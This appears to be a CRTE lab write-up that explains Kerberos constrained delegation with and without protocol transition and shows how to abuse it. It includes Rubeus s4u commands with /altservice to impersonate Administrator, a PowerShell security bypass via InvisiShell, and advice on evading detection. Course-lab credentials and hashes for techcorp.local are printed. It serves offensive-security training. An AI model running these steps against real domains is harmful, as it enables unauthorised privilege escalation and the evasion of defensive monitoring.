








CRTE - Certified Red Team Expert
Privilege Escalation - Constrained Delegation
We begin our exploration of constrained delegation by establishing that it is a mechanism within Windows Active Directory designed to allow a service to act on behalf of a user when connecting to other services, yet in a very controlled and limited fashion. In it’s essence, constrained delegation differs from unconstrained delegation in that it restricts the impersonation rights of a service account to only those specific services that we, as administrators, have explicitly allowed. This is a crucial security feature because it prevents a service from misusing its delegated rights to access any arbitrary service, thereby reducing the potential damage if that service account is ever compromised. When we discuss constrained delegation, we must consider two distinct scenarios: one without protocol transition and one with protocol transition. In the case of constrained delegation without protocol transition, the process is relatively straightforward. Here, the user initially authenticates using the Kerberos protocol. The front-end service, which has been granted constrained delegation rights, receives the user’s Kerberos ticket and then uses it to request another ticket from the Key Distribution Center (KDC) for a back-end service. Because the delegation is constrained, the KDC checks that the service account is only allowed to delegate to the specific target services that has been preconfigured. This approach ensures that the service can only impersonate the user when accessing services that have been deemed safe, thus maintaining a strong security posture.
In contrast, when we consider constrained delegation with protocol transition, we are dealing with a more nuanced situation. In this model, the user might not have originally authenticated using Kerberos; they might have used another protocol such as NTLM or even a certificate-based method. The beauty of protocol transition lies in its ability to convert this non-Kerberos authentication into a format that can be utilized by Kerberos for delegation. This conversion is achieved through two critical steps often referred to as S4U2Self and S4U2Proxy. Initially, with S4U2Self, the service requests a service ticket for itself on behalf of the user, even if that user’s original authentication was not Kerberos-based. Once this ticket is obtained, the service then employs S4U2Proxy to request a delegated ticket for the target back-end service, always ensuring that the delegation remains within the bounds of what has been allowed. Although this additional layer of functionality increases flexibility, it also introduces a greater need for careful configuration, since any misconfiguration could potentially be exploited by an attacker. From our perspective in offensive security, understanding these mechanisms in depth is paramount. We must recognize that constrained delegation with protocol transition expands the range of scenarios in which delegation is possible, but it also broadens the attack surface if our environment is not properly secured. Attackers often look for misconfigured delegation settings, especially where protocol transition is involved, because the ability to obtain a Kerberos ticket on behalf of a user even when that user did not authenticate via Kerberos can be leveraged to impersonate privileged identities.
Constrained delegation without protocol transition restricts delegation strictly to Kerberos-authenticated users. Here, a service (e.g., a web server) can request a Service Ticket (ST) for a user to access a downstream service (e.g., a database) listed in the service account’s msDS-AllowedToDelegateTo attribute. For this to work, the service must first obtain the user’s Ticket-Granting Ticket (TGT), which it uses to request the ST for the target service. The critical limitation is that the user’s initial authentication must occur via Kerberos. From an attacker’s perspective, if we compromise a service account with this delegation right, we can abuse it to impersonate users only if we have their TGT. Tools like Rubeus or Impacket can help us forge or request these tickets, but our success depends on having valid Kerberos material, such as stolen TGTs or golden tickets. This makes exploitation slightly restrictive, as we cannot impersonate users who authenticated via non-Kerberos protocols like NTLM.
Below the configuration on a target with Constrained Delegation Without Protocol transition where its set as Trust this computer for delegation to a specific service only and Use Kerberos Only. Meaning that Web-Server-01 has been trusted to act on behalf of a valid user who authenticated using Kerbeoas only to CIFS service on WEB-SERVER-02 .
Constrained delegation with protocol transition is far more dangerous. It introduces the S4U2Self and S4U2Proxy Kerberos extensions, which allow the service to transition from a non-Kerberos authentication method (e.g., NTLM, certificates) to Kerberos. With S4U2Self, the service can request a Service Ticket (ST) for itself on behalf of a user, even if that user authenticated via a non-Kerberos protocol. This ST is marked as “forwardable,” enabling the service to then use S4U2Proxy to request a second ST for the target service listed in msDS-AllowedToDelegateTo. The game-changer here is that the service does not need the user’s TGT or password—it only requires the user to have a valid logon (e.g., via NTLM). For attackers, this is a critical escalation path: if we compromise a service account with protocol transition enabled (indicated by the TRUSTED_TO_AUTHENTICATE_FOR_DELEGATION flag), we can forge STs for any user (including privileged accounts like Domain Admins) and access the delegated services. This bypasses Kerberos pre-authentication entirely, allowing us to pivot freely across the network.
The configuration below shows a target with Constrained Delegation With Protocol Transition, where the setting is Trust this user for delegation to specified services only and Use Any Authentication Protocol. This means that user John.Snow can impersonate any authenticated user (e.g., authenticated via Kerberos, NTLM, etc.) when accessing the CIFS service on the server Winterfell.
To weaponize this, we start by enumerating service accounts with constrained delegation rights. We query Active Directory for accounts where msDS-AllowedToDelegateTo is populated, using tools like AD Module PowerView or BloodHound. Accounts with protocol transition are prioritized, as they offer greater flexibility. Once identified, we exploit these accounts by:- Stealing or forging credentials for the service account (e.g., via Kerberoasting, credential dumping, or leveraging weak service account passwords).
- Using S4U2Self to generate a forwardable ST for a high-value user (e.g., a Domain Admin). For example, with Rubeus, we execute a command like s4u /user:ServiceAccount /rc4:ServiceAccountNTLMHash /impersonateuser:DomainAdmin /msdsspn:TargetService.
- Leveraging S4U2Proxy to request an ST for the target service (e.g., LDAP, CIFS) using the forwardable ticket. This grants us access to the target service as the impersonated user.
The implications are severe. For instance, if the delegated service is LDAP, we can modify Active Directory permissions or create backdoor users. If it’s CIFS, we can access file shares with elevated privileges. The key is to target services that offer administrative control over the domain. Defensive weaknesses we exploit include overprivileged service accounts (e.g., those allowed to delegate to high-value services), lack of monitoring for anomalous Kerberos ticket requests (e.g., a single service account requesting tickets for multiple users), and protocol transition enabled without proper justification. Additionally, many organizations fail to audit delegation configurations, allowing stale or unnecessary permissions to persist. To solidify our attack, we focus on persistence. Compromised service accounts with delegation rights are ideal for backdoors, as their permissions are rarely reviewed. We can also forge Golden Tickets or Silver Tickets tied to these accounts, ensuring long-term access.
Enumerating Constrained Delegation with ADModule
Let’s start our Unconstrained Delegation with ADModule by executing InvisiShell to bypass PowerShell security features like system-wide transcription, Script Block Logging, AMSI and Constrained Language Mode(CLM). RunWithRegistryNonAdmin.bat
After bypassing Powershell Security Features we can now import ADModule. Import-Module Import-Module C:\AD\Tools\ADModule-master\Microsoft.ActiveDirectory.Management.dll Import-Module C:\AD\Tools\ADModule-master\ActiveDirectory\ActiveDirectory.psd1
Now that we have imported our ADModule, we can use GetADObject to Enumerate Constrained Delegation in our target domain. Get-ADObject -Filter {msDS-AllowedToDelegateTo -ne "$null"} -Properties 'msDS-AllowedToDelegateTo'
We're querying Active Directory (AD) for objects where msDS-AllowedToDelegateTo is not null. This attribute defines which services a user or computer account is allowed to delegate authentication to. Our output shows two objects that have constrained delegation configured.First Object
- DistinguishedName: CN=appsvc,CN=Users,DC=techcorp,DC=local: This tells us that "appsvc" is a user account under CN=Users.
- msDS-AllowedToDelegateTo: {CIFS/us-mssql.us.techcorp.local, CIFS/us-mssql}: The appsvc account can delegate authentication to the CIFS service on the us-mssql server.
- ObjectClass: user: Confirms that appsvc is a user account.
Second Object
- DistinguishedName: CN=US-MGMT,OU=Mgmt,DC=techcorp,DC=local : This tells us that "US-MGMT" is a computer account under OU=Mgmt.
- msDS-AllowedToDelegateTo: {CIFS/US-MSSQL.us.techcorp.local, CIFS/US-MSSQL}: The US-MGMT machine is allowed to delegate authentication to the CIFS service on US-MSSQL.
- ObjectClass: computer: Confirms that US-MGMT is a computer object.

📌 And the output showed:- MSSQLSvc/us-mssql.us.techcorp.local
- WSMAN/us-mssql.us.techcorp.local
- TERMSRV/us-mssql.us.techcorp.local
- ❌ No CIFS/us-mssql.us.techcorp.local
Key Difference Between Delegation (msDS-AllowedToDelegateTo) and SPNs (ServicePrincipalName)
Constrained Delegation in Active Directory allows a service account to impersonate users and request Kerberos tickets on their behalf for specific services defined in msDS-AllowedToDelegateTo. When a service account has delegation rights to a service, the Kerberos Key Distribution Center (KDC) only verifies that the account is authorized to delegate but does not validate whether the target service's SPN actually exists on the destination machine. This behavior is why an SPN like CIFS/us-mssql.us.techcorp.local can be used for constrained delegation, even if it is not registered on the target machine, as we have on our target machine US-MSSQL$. When a ticket is requested using constrained delegation, the KDC grants the ticket as long as the requesting service account has the appropriate delegation rights. The KDC does not check whether the SPN exists in the directory, only that the service account is allowed to delegate to it. This allows attackers to request tickets for services that do not have a corresponding SPN on the target machine. The use of the /altservice parameter allows further flexibility by substituting the requested service name with another valid service, such as HTTP. This can be useful when an SPN that is needed does not exist, but another service with a valid SPN is present. Since Kerberos permits service name substitution in constrained delegation scenarios, an attacker can request a ticket for HTTP while keeping the original CIFS SPN in place, effectively bypassing SPN validation. This mechanism is useful for attacks where an attacker controls an account with delegation rights and wants to access a target system using an SPN that is not registered. Understanding this behavior provides insight into how constrained delegation operates and why it is possible to abuse delegation rights even when the target SPN does not exist on the machine.
Since we’ve already compromised the appsvc user account, we can leverage it to impersonate any user inside the us-mssql server. While CIFS is the delegated service, we can request a service ticket for HTTP instead, allowing us to access WinRM as an alternative. For OpSec, we'll use Rubeus.exe to request a ticket in memory and impersonate Administrator on us-mssql, but instead of using NTLM hashes, we'll use the AES256 key. This helps us stay under the radar and evade most defense mechanisms in place.
User: appsvc Clear-Text_PWD: Us$rT0AccessDBwithImpersonation NTLM_Hash: 1d49d390ac01d568f0ee9be82bb74d4c AES256: b4cb0430da8176ec6eae2002dfa86a8c6742e5a88448f1c2d6afc3781e114335
Let’s start by encoding our Rubeus.exe argument (s4u) using ArgSplit.bat file and do the copy/paste into the session were we will be executing Rubeus.exe. ArgSplit.bat Let’s now run Rubeus.exe in the memory using Loader.exe.
c:\AD\Tools\Loader.exe -Path C:\AD\Tools\Rubeus.exe -args "%Pwn%" /user:appsvc /aes256:b4cb0430da8176ec6eae2002dfa86a8c6742e5a88448f1c2d6afc3781e114335 /impersonateuser:administrator /altservice:HTTP /msdsspn:CIFS/us-mssql.us.techcorp.local /domain:us.techcorp.local /ptt
Let’s now run Rubeus.exe in the memory using Loader.exe.
c:\AD\Tools\Loader.exe -Path C:\AD\Tools\Rubeus.exe -args "%Pwn%" /user:appsvc /aes256:b4cb0430da8176ec6eae2002dfa86a8c6742e5a88448f1c2d6afc3781e114335 /impersonateuser:administrator /altservice:HTTP /msdsspn:CIFS/us-mssql.us.techcorp.local /domain:us.techcorp.local /ptt
 As we can see, we were able to request the the domain Administrator ST (Service Ticket) impersonate user Administrator inside US-MSSQL. Now we can simply check if the Service Ticket has been properly imported into our session using klist command.
klist
As we can see, we were able to request the the domain Administrator ST (Service Ticket) impersonate user Administrator inside US-MSSQL. Now we can simply check if the Service Ticket has been properly imported into our session using klist command.
klist

We can see above that now we can access the server US-MSSQL as domain Administrator. We will be using WinRS to remotely access US.MSSQL.us.techcorp.local machine and we should do it from PowerShell. So let’s once again execute our InvisiShell to bypass Powershell Defense mechanisms then we can access the target. winrs -r:us-mssql.us.techcorp.local cmd
It’s known that commands like whoami normally can trigger alerts to any sort of defense mechanism deployed inside our target network, so let enumerate our newly compromised host by using set username and set computername. using whose commands we can confirm that we are inside our target US-MSSQL host and we are the Administrator.